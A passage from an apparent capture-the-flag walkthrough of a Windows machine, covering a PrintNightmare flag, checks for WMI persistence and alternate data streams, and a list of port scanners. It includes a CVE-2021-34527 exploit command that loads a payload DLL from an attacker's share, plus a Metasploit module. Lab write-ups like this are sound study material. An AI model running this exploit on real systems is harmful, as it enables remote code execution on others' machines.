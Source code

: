 Explore the directory:
```powershell
dir C:\Windows\System32\spool\drivers\color\
type C:\Windows\System32\spool\drivers\color\*.txt
```

**FLAG{A***************2}** - In printnightmare_flag.txt

**Alternative PrintNightmare Exploitation:**
```python
# Using CVE-2021-34527 exploit
python3 CVE-2021-34527.py Domain.local/username:password@$TARGET '\\attacker\share\payload.dll'

# Or using Metasploit
use exploit/windows/dcerpc/ms_printer_spoolss
```

## Phase 7: Advanced Persistence and Hidden Data

### Step 7.1: WMI Persistence

```powershell
# Check for WMI persistence
Get-WMIObject -Namespace root\Subscription -Class __EventFilter
Get-WMIObject -Namespace root\Subscription -Class __EventConsumer
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding

# Check WMI repository
wmic process list brief
wmic startup list brief
```

### Step 7.2: Hidden Streams and Files

```powershell
# Find all alternate data streams
Get-ChildItem -Path C:\ -Recurse -Force -ErrorAction SilentlyContinue | ForEach-Object {
    Get-Item $_.FullName -Stream * -ErrorAction SilentlyContinue
} | Where-Object {$_.Stream -ne ':$DATA'}

# Check specific locations
dir /r C:\Public
dir /r C:\Users\Public
```

## Comprehensive Tool Alternatives

### Network Scanning Alternatives:
- **Nmap**: Industry standard, extensive scripts
- **Masscan**: Fastest port scanner
- **Zmap**: Internet-wide scanning capability
- **Unicornscan**: Accurate asynchronous scanning
- **RustScan**: Modern, fast, integrates with Nmap
